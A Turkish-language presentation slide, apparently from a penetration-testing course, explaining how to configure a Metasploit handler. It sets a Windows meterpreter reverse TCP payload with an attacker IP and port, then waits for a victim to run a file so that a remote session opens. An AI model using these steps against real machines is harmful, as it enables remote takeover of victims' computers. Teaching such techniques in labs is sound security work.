

# Metasploit İçerisinde Handler Ayarları
Options yazdıktan sonra karşımıza çıkan seçeneklerden değiştirmemiz gerekenler payload, LHOST, LPORT.
set payload Windows/x64/meterpreter_reverse_tcp
set lhost 10.0.2.17 (kali Linux IP adresini yazın)
set lport 4545 (payload oluştururken kullandığınız portu yazın)
exploit
Exploit komutunu girdikten sonra kullanıcının dosyayı çalıştırmasını bekleyebiliriz.
Dosya çalıştığı andan saniyeler sonra session(oturum) açılacak.